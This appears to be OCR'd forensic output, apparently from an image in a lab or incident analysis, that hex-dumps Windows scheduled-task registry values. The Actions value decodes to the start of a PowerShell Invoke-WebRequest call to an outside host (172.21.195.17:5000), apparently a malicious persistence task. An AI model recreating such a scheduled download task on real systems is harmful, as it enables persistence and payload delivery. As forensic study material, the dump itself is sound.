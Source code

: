 ```txt
00 fc cc d9 21 b9 da 01	....!...
00 07 06 00 00 00 07 00	........
ff ff ff ff ff ff ff ff	........
38 21 41 42 48 48 48 48	8!ABHHHH
09 df 08 16 48 48 48 48	....HHHH
0e 00 00 00 48 48 48 48	....HHHH
41 00 75 00 74 00 68 00	A.u.t.h.
6f 00 72 00 00 00 48 48	o.r...HH
00 00 00 00 48 48 48 48	....HHHH
00 48 48 48 48 48 48 48	.HHHHHHH
00 48 48 48 48 48 48 48	.HHHHHHH
01 00 00 00 48 48 48 48	....HHHH
1c 00 00 00 48 48 48 48	....HHHH
01 05 00 00 00 00 00 05	........
15 00 00 00 80 81 91 5d	.......]
2a e1 6f 59 bb a8 a9 6c	*.oY...l
e8 03 00 00 48 48 48 48	....HHHH
22 00 00 00 48 48 48 48	"...HHHH
44 00 45 00 41 00 4e 00	D.E.A.N.
47 00 49 00 4c 00 4d 00	G.I.L.M.
4f 00 52 00 5c 00 63 00	O.R.\.c.
6c 00 61 00 72 00 61 00	l.a.r.a.
00 00 48 48 48 48 48 48	..HHHHHH
2c 00 00 00 48 48 48 48	,...HHHH
58 02 00 00 10 0e 00 00	X.......
80 f4 03 00 ff ff ff ff	........
07 00 00 00 00 00 00 00	........
00 00 00 00 00 00 00 00	........
00 00 00 00 00 00 00 00	........
00 00 00 00 48 48 48 48	....HHHH
dd dd 00 00 00 00 00 00	........
01 07 06 00 00 00 07 00	........
00 fc cc d9 21 b9 da 01	....!...
00 00 00 00 00 00 00 00	........
00 00 00 00 00 00 00 00	........
00 00 00 00 00 00 00 00	........
00 00 00 00 00 00 00 00	........
10 0e 00 00 00 00 00 00	........
ff ff ff ff 00 00 00 00	........
00 00 00 00 00 00 00 00	........
00 01 5a 2b 01 00 00 00	..Z+....
00 00 00 00 9f 68 00 00	.....h..
00 00 00 00 48 48 48 48	....HHHH"	False
* 2024-06-07 19:30:25.000000 	0xb90450c0f000	REG_BINARY	\SystemRoot\System32\Config\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tasks\{0669B1EB-ED96-4F61-802F-AB93D8FD0D30}	Actions	"
03 00 0c 00 00 00 41 00	......A.
75 00 74 00 68 00 6f 00	u.t.h.o.
72 00 66 66 00 00 00 00	r.ff....
22 00 00 00 49 00 6e 00	"...I.n.
76 00 6f 00 6b 00 65 00	v.o.k.e.
2d 00 57 00 65 00 62 00	-.W.e.b.
52 00 65 00 71 00 75 00	R.e.q.u.
65 00 73 00 74 00 f4 00	e.s.t...
00 00 2d 00 55 00 72 00	..-.U.r.
69 00 20 00 68 00 74 00	i...h.t.
74 00 70 00 3a 00 2f 00	t.p.:./.
2f 00 31 00 37 00 32 00	/.1.7.2.
2e 00 32 00 31 00 2e 00	..2.1...
31 00 39 00 35 00 2e 00	1.9.5...
31 00 37 00 3a 00 35 00	1.7.:.5.
30 00 30 00 30 00 2f 00	0.0.0./.
48 00 6f 00 6c 00 6d 00	H.o.l.m.
```